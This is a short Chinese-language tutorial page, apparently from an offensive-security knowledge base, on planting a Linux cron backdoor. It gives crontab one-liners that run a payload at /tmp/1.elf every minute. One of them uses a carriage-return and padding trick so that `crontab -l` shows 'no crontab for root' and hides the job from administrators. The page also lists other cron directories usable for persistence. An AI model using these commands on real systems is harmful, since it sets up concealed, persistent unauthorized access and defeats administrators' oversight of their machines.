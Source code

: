 ```yaml
---
title: "Cron后门"
id: zhfly3490
---
```


# Cron后门

**Cron介绍**

在Linux系统中，计划任务一般是由cron承担，我们可以把cron设置为开机时自动启动。cron启动后，它会读取它的所有配置文件（全局性配置文件/etc/crontab，以及每个用户的计划任务配置文件），然后cron会根据命令和执行时间来按时来调用工作任务。

**Cron后门**

> cron表达式在线生成：

http://qqe2.com/cron

```
(crontab -l;echo '*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i')|crontab - 
```

![image](../img/36ec548077b21e9f66ae28230ceb9b95.png)

这样执行会在crontab列表里出现，如果是如上执行的话，管理员执行crontab -l就能看到执行的命令内容不是特别隐蔽。

那么就有了一个相对的高级用法，下面命令执行后会显示”no crontab for root”。其实就达到了一个隐藏的效果，这时候管理员如果执行crontab -l就会看到显示”no crontab for root”。

```
(crontab -l;printf "*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab - 
```

![image](../img/34c64f7de286dc5532afd9735128501e.png)

实际上是他将cron文件写到文件中。/var/spool/cron/crontabs/root 。而crontab -l就是列出了该文件的内容。

通常cat是看不到这个的，只能利用less或者vim看到，这也是利用了cat的一个缺陷，后面会讲到。

![image](../img/093977426a45e11f5408fa7927d234d2.png)

/etc/cron.d/ /etc/cron.daily/ /etc/cron.weekly/ /etc/cron.hourly/ /etc/cron.monthly/ 这几个路径都可以存放cron执行脚本,对应的时间不同。